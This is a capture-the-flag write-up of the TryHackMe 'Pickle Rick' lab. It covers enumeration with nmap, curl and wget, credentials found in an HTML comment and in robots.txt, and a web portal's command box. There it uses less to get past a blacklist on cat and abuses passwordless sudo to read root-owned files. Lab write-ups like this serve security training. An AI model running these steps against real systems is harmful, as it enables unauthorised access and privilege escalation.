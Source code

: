 # TryHackMe — Pickle Rick (room) — Walkthrough-style Writeup
**Target (lab IP):** `<ROOM_IP>`  
**Author:** dinnie  
**Date:** $(date -u +"%Y-%m-%d %H:%M:%SZ")  
**Reference:** adapted from the walkthrough (lab).

---

## TL;DR
You enumerate the web host (HTTP), find a hint (username) in HTML comments and a password in `robots.txt`, discover a `portal.php` login, authenticate with the discovered credentials, use the portal's command box to list files and read files (using `less` since `cat` is restricted), find first secret ingredient, then use `sudo -l` (passwordless sudo) to enumerate higher-privilege files and read the remaining two ingredients.

**TryHackMe Answer placeholders (filled):**
1. First ingredient: **${ING1}**  
2. Second ingredient: **${ING2}**  
3. Last ingredient: **${ING3}**

> Note: These answers are included here per your request. If you plan to publish this repository publicly, consider removing or redacting direct answers to challenge rooms.

---

## Environment & artifacts
- Kali VM (connected to TryHackMe VPN)
- Working folder: `$WORKDIR`
- Artifacts (local): `$WORKDIR/artifacts/<ROOM_IP>/`
- Tools used: `nmap`, `curl`, `wget`, `gobuster`, browser DevTools, `less`, `grep`.

**Safety note:** do not push VPN configs, private keys, or tokens to public repos.

---

## Step-by-step walkthrough (commands & notes)

### 0) Prep / set variables
```bash
TARGET=<room-ip>
ART="\$HOME/lab/tryhackme/artifacts/\$TARGET"
mkdir -p "\$ART" "\$ART/web"
Discovery

bash
Copy code
ping -c 3 $TARGET | tee "$ART/ping.txt"
nmap -Pn -sS -sV -T4 -oN "$ART/nmap_quick.txt" $TARGET
# Expect: port 80 (http) open (and often port 22 ssh)
Visit homepage & view source
Open http://$TARGET/ in the browser and view page source. Look for HTML comments; you will find a hinted username:

html
Copy code
<!-- Note to self, remember username!
     Username: R1ckRul3s
-->
Check robots & mirror site

bash
Copy code
curl -s "http://$TARGET/robots.txt" | tee "$ART/robots.txt"
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent "http://$TARGET/" -P "$ART/web/wget_mirror"
In the walkthrough the robots file included Wubbalubbadubdub (treat it as lab-only credential).

Look for portal/login pages

bash
Copy code
# quick custom guesslist (or run gobuster)
for p in portal.php portal login admin; do
  curl -s -I "http://$TARGET/$p" | sed -n '1,20p'
done
# open http://$TARGET/portal.php in browser
Login to portal
Username: R1ckRul3s

Password: (found in robots / assets in-lab)
Login yields a command execution box.

Use the portal command box: enumerate and read files
ls -> shows Sup3rS3cretPickl3Ingred.txt

less Sup3rS3cretPickl3Ingred.txt -> reveals the first ingredient (${ING1})

(cat may be blacklisted; use less or tail as allowed)

Inspect code & blacklist
Use the command box to search the webapp files and reveal the list of blacklisted commands (the site source printed the blacklist during the walkthrough).

Check sudo privileges
Run sudo -l from the command box (or shell) — the walkthrough found passwordless sudo allowed for the web user.

Enumerate root/home and read other flags

bash
Copy code
sudo ls ../../../*   # or sudo ls /root /home/rick
sudo less /root/3rd.txt
less /home/rick/"second ingredients"
These reveal the remaining two ingredients: ${ING2} and ${ING3}.
